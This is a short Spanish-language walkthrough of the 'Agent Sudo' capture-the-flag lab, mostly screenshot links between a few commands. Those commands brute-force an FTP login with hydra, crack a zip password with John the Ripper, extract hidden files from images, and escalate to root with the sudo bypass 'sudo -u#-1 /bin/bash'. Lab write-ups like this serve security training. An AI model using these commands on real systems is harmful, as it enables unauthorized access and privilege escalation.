# Agent Sudo

## Nmap



## Web



Cambiamos el user agent a R



Cambiamos el user agent a C



## Fuzzing



## FTP

    hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.157.179



Podemos descargar todos los archivos usando ``mget *``





## Steg

    exiftool cutie.png

Podemos ver un Warning ``Trailer data after PNG IEND chunk``





Extraemos el zip de la imagen

    binwalk cutie.png -e



El archivo zip tiene contraseña, le pasamos ``JhonTheRipper``

    zip2john 8702.zip > zip.hashes

    john zip.hashes



Descomprimimos el zip

    7z e 8702.zip



Pasamos el mensaje oculto por ``CyberChef``



Extraemos el mensaje de la otra imagen





## SSH



Descargamos la imagen

    sudo scp james@10.10.157.179:Alien_autospy.jpg ~/



Buscamos la imagen en google. El nombre del incidente es ``Roswell alien autopsy``

## Escalada de Privilegios



Buscamos en google los permisos y encontramos como escalar

    sudo -u#-1 /bin/bash



